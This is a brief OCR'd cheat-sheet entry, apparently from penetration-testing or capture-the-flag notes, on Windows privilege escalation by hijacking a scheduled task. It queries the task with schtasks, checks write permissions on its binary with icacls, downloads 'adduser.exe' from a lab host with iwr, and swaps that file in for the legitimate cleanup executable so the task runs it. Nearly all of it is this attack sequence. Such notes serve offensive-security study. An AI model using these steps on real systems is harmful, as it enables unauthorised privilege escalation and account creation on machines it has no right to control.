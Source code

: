 # Task Scheduler/Cron Job

    · schtasks /query /fo LIST /v (find taskName: \Microsoft\CacheCleanup)

    · icacls C:\Users\noman\Pictures\Cleanup.exe user (I)(F) permission required)

    • iwr -Uri http://192.168.10.10/adduser.exe -Outfile Cleanup.exe

    • move .\Pictures\BackendCacheCleanup.exe Cleanup.exe.bak

    • move .\Cleanup.exe .\Pictures\ (waiting for the execution and put file just one before the folder)

